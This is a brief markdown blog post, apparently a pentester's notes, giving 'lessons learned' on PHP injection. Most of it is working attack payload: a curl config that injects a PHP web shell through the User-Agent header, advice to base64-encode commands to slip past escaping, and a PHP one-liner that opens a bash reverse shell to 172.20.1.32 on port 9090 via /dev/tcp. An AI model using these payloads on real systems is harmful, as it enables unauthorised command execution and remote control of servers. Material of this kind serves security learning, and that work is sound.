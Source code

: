 ```yaml
---
layout: post
author: redle
---
```


 Some leasons learned...

# PHP Injection:
## Use User Agent to avoid scape ' or "
> curl -K file
> file:
> user-agent = "<?php system($_GET['cmd']) ?>"

## Base64 avoiding special chars:
> Use base64 to send the command, this avoid problem with special chas as : ',",;, and eliminate the scape of these chars.

## PHP Shell:
> <?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/172.20.1.32/9090 0>&1'\");?>
